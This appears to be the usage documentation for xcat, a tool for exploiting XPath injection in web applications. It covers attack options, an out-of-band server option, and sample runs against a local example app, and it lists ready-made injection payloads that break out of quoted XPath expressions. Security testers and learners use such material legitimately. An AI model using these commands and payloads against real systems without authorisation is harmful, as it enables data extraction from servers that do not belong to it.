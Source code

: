# Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

To attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

xcat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then xcat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

xcat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](oob.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# Detect

This command will print out what injection xcat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer
function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: True
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: True
environment-variables: False
document-uri: True
base-uri: True
current-datetime: True
unparsed-text: False
doc-function: True
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False
``` 

# run

This is the core function of xcat. It will retrieve the whole document that is being queried with the
vulnerable xpath expression.

```shell
$ xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer
<root first="1" second="2" third="">
	<!--My lovely library-->
	<books>
		<book>
			<title>
				Rogue Lawyer
			</title>
			<author>
				John Grisham
			</author>
...
```

# shell

This is one of the most powerful features of xcat. 
Please see [the dedicated `shell` documentation here](shell.md)


# injections

This command prints out all the injections xcat currently can use, along with the sample expressions 
xcat will use to test if this injection works.

```shell
$ xcat injections
Supports 10 injections:
Name: integer
 Example: /lib/book[id=?]
 Tests:
   ? and 1=1 = passes
   ? and 1=2 = fails
Name: string - single quote
 Example: /lib/book[name='?']
 Tests:
   ?' and '1'='1 = passes
   ?' and '1'='2 = fails
Name: string - double quote
 Example: /lib/book[name="?"]
 Tests:
   ?" and "1"="1 = passes
   ?" and "1"="2 = fails
Name: attribute name - prefix
 Example: /lib/book[?=value]
 Tests:
   1=1 and ? = passes
   1=2 and ? = fails
Name: attribute name - postfix
 Example: /lib/book[?=value]
 Tests:
   ? and not 1=2 and ? = passes
   ? and 1=2 and ? = fails
Name: element name - prefix
 Example: /lib/something?/
 Tests:
   .[true()]/? = passes
   .[false()]/? = fails
Name: element name - postfix
 Example: /lib/?something
 Tests:
   ?[true()] = passes
   ?[false()] = fails
Name: function call - last string parameter - single quote
 Example: /lib/something[function(?)]
 Tests:
   ?') and true() and string('1'='1 = passes
   ?') and false() and string('1'='1 = fails
Name: function call - last string parameter - double quote
 Example: /lib/something[function(?)]
 Tests:
   ?") and true() and string("1"="1 = passes
   ?") and false() and string("1"="1 = fails
Name: other elements - last string parameter - double quote
 Example: /lib/something[function(?) and false()] | //*[?]
 Tests:
   ?") and false()] | //*[true() and string("1"="1 = passes
   ?") and false()] | //*[false() and string("1"="1 = fails
```

# ip

This command is a convenience function to get your current external IP address. It takes 
no arguments.

```shell
$ xcat ip
123.210.60.90
```
